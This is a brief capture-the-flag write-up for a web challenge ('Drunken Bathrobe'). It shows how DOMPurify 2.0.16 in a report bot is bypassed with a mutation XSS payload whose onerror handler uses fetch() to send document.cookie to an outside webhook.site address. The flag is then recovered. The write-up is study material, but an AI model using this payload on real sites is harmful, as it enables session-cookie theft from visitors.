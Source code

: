 # Drunken Bathrobe

First we have the code, analyse it and we can see the `bot.js` file. This is probably a XSS. Now go on the [web page](http://hctf.hackappatoi.com:8002/), we have a `/report` URL where we can send a message to the admin, i'm sure this is a XSS.

Read the code, we can see the `dompurify` is imported and used by the bot to sanitize the message (`res = DOMPurify.sanitize(res);`)...
Read the Dockerfile and get the dompurify version `dompurify@2.0.16`, check on google, there is a vulnerability a mXSS pass the `sanitize` function.
Create an exploit and encode it:

```html
<mamathth><mtext><table><mglyph><style><mamathth><table id="</table>"><img src onerror=fetch('https://webhook.site/f404f402-495f-4911-8cef-c88946aed1dd/?'%2Bdocument.cookie)>
```

Send it on the `/report` page and get the flag: `https://webhook.site/f404f402-495f-4911-8cef-c88946aed1dd?flag=hctf%7Bmy_n3w_flag-fl4vor3d_c0ck7ail%7D` -> `hctf{my_n3w_flag-fl4vor3d_c0ck7ail}`
